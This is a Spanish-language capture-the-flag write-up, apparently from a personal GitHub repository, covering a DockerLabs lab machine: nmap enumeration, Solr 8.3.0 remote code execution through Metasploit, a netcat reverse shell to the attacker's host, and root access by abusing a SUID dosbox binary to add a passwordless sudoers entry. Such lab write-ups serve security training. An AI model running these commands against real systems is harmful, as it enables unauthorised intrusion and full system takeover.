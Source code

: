 # Máquina Eclipse
Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/RG0whSrR#dhO_VHaG-BK8A6NcVwiAhYWxZiStdYj9yT3DFWGiVEQ)

- **Nombre de la Máquina:** Fooding
- **Sistema Operativo**: Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
	- Slor 8.3.0 Remote Code Execution via Velocity Template

### Reconocimiento y enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```
![Pasted image 20240709193254](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/e0741a7d-94f7-4c97-a521-6c77e238e1d3)

Nos reporta el puerto 80 y el puerto 8983, haremos un escaneo mas exhaustivo para ver que corre por cada puerto.
```bash
sudo nmap -p 80,8983 -sCV 172.17.0.2 -oN targeted.txt
```
![Pasted image 20240709193514](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/16ab5a02-6480-4993-98f3-1209a06c73cc)

- Puerto 80: HTTP Apache
- Puerto 8983: Solr Admin

Después de analizar el informe de nmap, identificamos que el puerto 80 está activo y ejecuta un servicio Apache. Además, notamos que en el puerto 8983 se está ejecutando otro servicio, que es un servidor web desarrollado en Java y empleado para realizar búsquedas específicas, como las que se realizan dentro de un blog.

En el puerto 80 solo encontramos una imagen, la cual no nos aporta información útil, por lo que decidí investigar más a fondo el servicio Solr.

![Pasted image 20240709194022](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/176f0ce5-e677-46b7-b68b-906ab788f86d)

Como podemos observar en el panel de control, se muestra la versión del servicio. Con esta información, procedo a investigar si existen vulnerabilidades explotables.

Tuvimos suerte y encontramos varios métodos de explotación. Básicamente, es el mismo procedimiento, pero con diferentes enfoques: uno utilizando Metasploit y otro empleando un script en Python.
[Exploit Solr 8.3.0](https://www.exploit-db.com/exploits/48338)

### Explotación

    - Utilizo tanto el método con msfconsole como con el script.

Con Metasploit, sigo los pasos después de analizarlos cuidadosamente y los adapto a mi entorno.

#### Metasploit
Buscamos el exploit con el comando:
```bash
search solr
```
![Pasted image 20240709195212](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/e2c2ae74-3d41-431a-8829-aec31a474756)


```bash
use 0
set RHOSTS 172.17.0.2
set LHOST 172.17.0.1
check
```
![Pasted image 20240709195413](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/fa080517-d09c-4c7f-a63e-903089e2d3f6)

Al poner check, nos dice que el target es vulnerable.
![Pasted image 20240709195557](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/eec4a79e-ff88-4b9c-bbe2-9a8808fbb308)

Ejecutamos el comando run y estaremos dentro de la máquina como usuario ninhack.
![Pasted image 20240709195738](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/b4d64aff-c782-4e28-864a-11f5adeebc3a)


### Escalada de privilegios
Primero me mandé una shell para trabajar mas cómodo con el siguiente comando:
```bash
nc 172.17.0.1 1234 -e /bin/bash
```

Para la escalada de privilegios primero probé  con sudo y nos pide contraseña así que me puse a investigar y vi que tengo permisos SUID con el binario **dosbox**.
```bash
find / -perm -4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Miro en la página [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid) y encuentro justo el método para escalar privilegios usando ese script.

Después de investigar un poco, entiendo que este binario nos permite escribir en el sistema. Esto nos da la posibilidad de modificar ciertos archivos para obtener privilegios de root.

Para finalizar la explotación, realizo lo siguiente con sudoers:

```bash
LFILE='\etc\sudoers.d\ninhack'
/usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

Una vez ejecutados esos comandos, solo necesitamos ejecutar `sudo su` para convertirnos en usuario root.
![Pasted image 20240709201931](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/18a446b4-a44b-42b3-b540-580cc1d50a51)
